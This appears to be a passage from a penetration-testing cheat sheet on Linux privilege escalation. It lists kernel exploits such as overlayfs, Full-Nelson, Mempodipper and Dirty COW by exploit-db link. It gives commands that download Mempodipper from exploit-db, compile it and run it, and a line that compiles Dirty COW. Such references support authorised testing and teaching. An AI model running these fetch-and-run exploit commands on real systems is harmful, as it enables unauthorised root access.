 ```
wget  https://www.rebootuser.com/?p=1758
```

### Exploits worth running

{% hint style="success" %}
Always be sure to read the comments in exploits they inform you about which systems and version are vulnerable, which parts of the script need modification & which compilation flags to use. $targetip 32 bit or 64 bit? Be mindful of this when compiling exploits.
{% endhint %}

#### Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation

```
https://www.exploit-db.com/exploits/37292
```

#### CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8

```
https://www.exploit-db.com/exploits/15285/
```

#### Linux Kernel <= 2.6.37 'Full-Nelson.c'

```
https://www.exploit-db.com/exploits/15704/
```

#### CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

```
https://git.zx2c4.com/CVE-2012-0056/about/
```

#### Linux CVE 2012-0056

```
wget -O exploit.c <http://www.exploit-db.com/download/18411>
  gcc -o mempodipper exploit.c
  ./mempodipper
```

#### CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```
https://dirtycow.ninja/
```

#### Compile dirty cow:

```
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```
